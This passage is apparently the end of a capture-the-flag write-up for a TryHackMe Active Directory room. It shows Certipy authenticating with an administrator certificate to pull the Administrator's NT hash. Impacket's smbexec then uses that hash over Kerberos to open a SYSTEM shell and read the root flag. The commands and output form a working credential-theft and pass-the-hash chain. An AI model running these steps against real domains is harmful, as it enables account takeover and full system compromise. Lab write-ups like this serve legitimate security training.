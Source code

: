 Finally, using the certificate to authenticate as the **Administrator** user, we retrieve their NTLM hash:

```console
$ certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@thm.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:07d6[REDACTED]2322
```
>  You need to make sure your system time is synchronized with the target for this step.
{: .prompt-tip }

Using this hash, we can use Impacket’s `smbexec` to spawn a shell and read the root flag from the **Administrator**'s desktop to complete the room:

```console
$ smbexec.py -k -hashes :07d6[REDACTED]2322 THM.LOCAL/Administrator@labyrinth.thm.local
Impacket v0.13.0.dev0+20250206.100953.075f2b10 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
THM{[REDACTED]}
```

> We are using the `-k` flag to force `smbexec.py` to use **Kerberos** authentication because the **Administrator** user is a member of the **Protected Users** group.
{: .prompt-tip }

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>

